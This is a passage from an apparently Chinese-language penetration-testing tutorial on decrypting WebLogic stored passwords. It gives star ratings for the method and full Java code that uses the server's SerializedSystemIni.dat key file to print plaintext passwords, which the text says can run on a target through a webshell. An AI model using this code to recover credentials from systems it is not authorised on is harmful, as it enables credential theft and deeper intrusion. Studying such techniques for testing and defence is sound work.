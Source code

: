 但是在执行解密的时候又报错了，尝试在不同操作系统下执行，都是一样的错误，这个解密的ps脚本从来没成功过。

![image](images/image(8).png)


# 解密方法3：执行java代码1

在本地或服务器上都可执行，本地的话需要weblogic环境，且版本要和目标系统版本一致。在服务器上执行时要求能通过webshell能执行java命令。

适用场景：本地或服务器上都可执行

操作难易：★★★★

成功几率：★★★

推荐指数：★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools3-Decrypt`

---

找到密钥文件`SerializedSystemIni.dat`，把它复制到其他的文件夹，比如/tmp下面。

在这个文件夹下新建一个java文件，Decrypt.java，名字需要和内容的class名字一样。

```
import weblogic.security.internal.*;
import weblogic.security.internal.encryption.*;

import java.io.PrintStream;


public class Decrypt {
    static EncryptionService es = null;
    static ClearOrEncryptedService ces = null;

    public static void main(String[] args) {
        String s = null;

        if (args.length == 0) {
            s = ServerAuthenticate.promptValue("Password: ", false);
        } else if (args.length == 1) {
            s = args[0];
        } else {
            System.err.println("Usage: java Decrypt [ password ]");
        }

        es = SerializedSystemIni.getExistingEncryptionService();

        if (es == null) {
            System.err.println("Unable to initialize encryption service");

            return;
        }

        ces = new ClearOrEncryptedService(es);

        if (s != null) {
            System.out.println("\nDecrypted Password is:" + ces.decrypt(s));
        }
    }
}
```
